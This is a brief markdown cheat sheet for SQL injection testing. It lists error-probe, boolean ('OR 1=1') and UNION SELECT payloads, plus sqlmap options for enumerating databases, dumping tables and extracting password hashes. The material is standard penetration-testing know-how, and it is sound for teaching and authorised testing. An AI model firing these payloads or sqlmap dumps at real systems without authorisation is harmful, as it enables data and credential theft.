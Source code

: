 # SQL injection

Inject SQL into a query parameter.

## Initial test

Check for errors or changes in output.

`'`

## Boolean test

Check if you can control output based on TRUE/FALSE statements.

You can use this to ask the database yes/no questions, e.g. "is the first letter of the first database 'a'?".

- `' OR '1'='1'; -- -`
- `' OR '1'='2'; -- -`
- `' AND '1'='1'; -- -`
- `' AND '1'='2'; -- -`

Consider leaving the original parameter before the boolean test, e.g. `123' AND '1'='2'; -- -`

## UNION test

Check if it's possible to dump SQL data into the HTML response.

Add `null` or static values to find the correct number of fields.

- `' UNION SELECT user(); -- -'`
- `' UNION SELECT user(), null; -- -'`
- `' UNION SELECT user(), 'a', 'b'; -- -`

If you need to leave the original parameter, combine with a false boolean test, e.g. `123' AND '1'='2' UNION SELECT user(); -- -`

## sqlmap

Manually verify a vulnerability before using sqlmap. This lets you set the right technique, which saves time.

Options:

- `--technique=B` sets technique to boolean (B) or UNION (U)
- `--dbs` or `-D=<DATABASE>` lists or chooses database.
- `--tables` or `-T=<TABLE>` lists or chooses table.
- `--colums` or `-C=<COLUMNS>` lists or chooses columns.
- `--dump` or `--dump-all` dumps SQL data.
- `--passwords` dumps password hashes.
- `-r` uses a request file.